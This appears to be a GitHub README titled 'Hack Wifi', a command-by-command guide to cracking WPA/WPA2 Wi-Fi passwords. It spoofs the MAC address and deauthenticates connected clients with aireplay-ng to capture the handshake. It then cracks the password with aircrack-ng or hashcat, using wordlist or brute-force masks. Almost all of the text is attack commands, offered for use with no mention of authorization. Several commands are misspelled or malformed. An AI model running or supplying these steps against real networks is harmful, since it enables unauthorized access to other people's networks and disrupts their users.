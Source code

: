 # Hack Wifi
## macos
https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
## kali or ubuntu

https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux


hack wifi (wpa2-wpa) with kali or ubuntu
#### new terminal 1
You can change your mac address(Optional)
```
ifconfig wlan0 down
macchanger -m 00:00:00:00:00 wlan0
ifconfig wlan0 down
```
then You have to switch to monitor mode
```
airmon-ng start wlan0
```
#### new terminal 2
look available Wifis
```
airodump wlan0mon

airodump-ng -c channel --bssid MAC -w /root/Desktop/ mon0

```
#### new terminal 3
attack to get handshake in terminal 2
```
aireplay-ng -0 <60> -a <BSSID> wlan0mon
```

##########
```
cap2hccapx.bin name.cap name.hccapx

```

#### final step
after You get handshake in (2)

you can try to crack password
```
aircrack-ng -w <wordlist> -b <BSSID> <handshake file>
```
##### or
you can crack with GPU . its faster and better with hashcat

first convert handshake file
```
airecrack-ng <INP> -J <OUT> #cap to hcap   
```
then
```
hashcat -m 2500 -u 4096 <.hcap file> <wordlist>
```
hashcat manual
```
-a3 #brute force mode

?l=abc...z
?d=012...9
?u=ABC...Z
?s=!#...{}
?a=?l?u?d?s
```
